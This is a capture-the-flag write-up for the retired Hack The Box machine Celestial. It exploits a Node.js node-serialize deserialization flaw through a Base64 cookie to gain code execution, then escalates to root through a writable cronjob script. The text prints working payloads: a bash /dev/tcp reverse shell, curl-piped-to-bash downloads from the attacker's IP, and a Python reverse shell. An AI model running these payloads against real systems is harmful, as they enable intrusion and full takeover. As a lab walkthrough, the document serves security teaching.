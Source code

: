 # Celestial

This is the write-up for the box Celestial that got retired at the 25th August 2018.
My IP address was 10.10.14.20 while I did this.

Let's put this in our hosts file:
```markdown
10.10.10.85    celestial.htb
```

## Enumeration

Starting with a Nmap scan:

```markdown
nmap -sC -sV -o nmap/celestial.nmap 10.10.10.85
```

```markdown
PORT     STATE SERVICE VERSION
3000/tcp open  http    Node.js Express framework
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
```

## Checking Node.js Express Framework (Port 3000)

On the web page there is one sentence:
```markdown
Hey Dummy 2 + 2 is 22
```

When examining the HTTP headers with **Burpsuite**, the _Cookie_ header has a value that looks like a Base64-encoded string:
```markdown
Cookie: profile=eyJ1c2VybmFtZSI6IkR1bW15IiwiY291bnRyeSI6IklkayBQcm9iYWJseSBTb21ld2hlcmUgRHVtYiIsImNpdHkiOiJMYW1ldG93biIsIm51bSI6IjIifQ%3D%3D
```

This needs to be URL-decoded first, because the _%3D_ is an URL-encoded _equal sign_:
```markdown
# URL-decoded:
eyJ1c2VybmFtZSI6IkR1bW15IiwiY291bnRyeSI6IklkayBQcm9iYWJseSBTb21ld2hlcmUgRHVtYiIsImNpdHkiOiJMYW1ldG93biIsIm51bSI6IjIifQ==

# Base64-decoded:
{"username":"Dummy","country":"Idk Probably Somewhere Dumb","city":"Lametown","num":"2"}
```

It decodes as a **JSON Object** which can be modified, then Base64-encoded and sent to the server. Lets modify the _"num"_ key to _100_:
```markdown
# Change num key
{"username":"Dummy","country":"Idk Probably Somewhere Dumb","city":"Lametown","num":"100"}

# Base64-encoded:
eyJ1c2VybmFtZSI6IkR1bW15IiwiY291bnRyeSI6IklkayBQcm9iYWJseSBTb21ld2hlcmUgRHVtYiIsImNpdHkiOiJMYW1ldG93biIsIm51bSI6IjEwMCJ9
```

Now the web page displays a different number:
```markdown
Hey Dummy 100 + 100 is 100100
```

This looks like the web server utilizes the cookie and goes through a serialized object which means that exploitation with a **Node.js Deserialization Vulnerability** is possible. More about this type of vulnerability can be read in [this article from OPSECX](https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/).

### Exploiting the Deserialization Vulnerability

I take the payload from the article and modify it to our needs:
```javascript
var y = {
 "username":function(){ require('child_process').exec('ls /', function(error, stdout, stderr) { console.log(stdout) });},
 "country":"Idk Probably Somewhere Dumb",
 "city":"Lametown",
 "num":"100",
}

var serialize = require('node-serialize');
console.log("Serialized: \n" + serialize.serialize(y));
```

Installing the Node.js dependencies with `npm`:
```markdown
npm install node-serialize
```

Running the script with `node`:
```markdown
node payload.js
```

After executing, it provides the following payload:
```markdown
{"username":"\_$$ND_FUNC$$\_function(){ require('child_process').exec('ls /', function(error, stdout, stderr) { console.log(stdout) });}","country":"Idk Probably Somewhere Dumb","city":"Lametown","num":"100"}
```

There has to be some changes in the payload before it works:
```markdown
{"username":"\_$$ND_FUNC$$\_require('child_process').exec('ls /', function(error, stdout, stderr) { console.log(stdout) })","country":"Idk Probably Somewhere Dumb","city":"Lametown","num":"100"}
```

Now the payload has to be Base64-encoded and sent to the web application in the Cookie header and after sending it, it responses with the following:
```markdown
Hey [object Object] 100 + 100 is 100100
```

This proofs that Remote Code Execution works but it can't show the output of the `ls` command that is specified in the payload. Instead using `ping` to our local client will show us a visual feedback that this payload works:
```markdown
{"username":"\_$$ND_FUNC$$\_require('child_process').exec('ping -c 2 10.10.14.20', function(error, stdout, stderr) { console.log(stdout) })","country":"Idk Probably Somewhere Dumb","city":"Lametown","num":"100"}
```

Sniffing the ICMP traffic with **tcpdump**:
```markdown
tcpdump -i tun0 icmp
```

After sending the payload, it sends two pings back and proofs that code execution works.
Now we can upload a reverse shell:
```markdown
bash -i >& /dev/tcp/10.10.14.20/9001 0>&1
```

Payload to upload it on the box:
```markdown
{"username":"\_$$ND_FUNC$$\_require('child_process').exec('curl 10.10.14.20/revshell.sh|bash', function(error, stdout, stderr) { console.log(stdout) })","country":"Idk Probably Somewhere Dumb","city":"Lametown","num":"100"}
```

After executing, the listerner on my IP and port 9001 spawns a reverse shell as the user _sun_.

## Privilege Escalation

To get an attack surface, it is wise to run any **Linux Enumeration Script** on the box:
```markdown
curl 10.10.14.20/LinEnum.sh | bash
```

After analyzing the output, it shows that the user is a member of the _adm_ group and thus can read log files.
In the log file _/var/log/syslog_ there is an entry of a **Cronjob** that runs as root:
```markdown
(root) CMD (python /home/sun/Documents/script.py > /home/sun/output.txt; cp /root/script.py /home/sun/Documents/script.py; chown sun:sun /home/sun/Documents/script.py; chattr -i /home/sun/Documents/script.py; touch -d "$(date -R -r /home/sun/Documents/user.txt)" /home/sun/Documents/script.py)
```

The user _sun_ got permission to write into the _/home/sun/Documents/script.py_ file, so lets replace the code with a Python reverse shell:
```markdown
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.20",9002));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
```

Every 5 minutes the cronjob runs and after a while the listener on my IP and port 9002 starts a reverse shell as root!
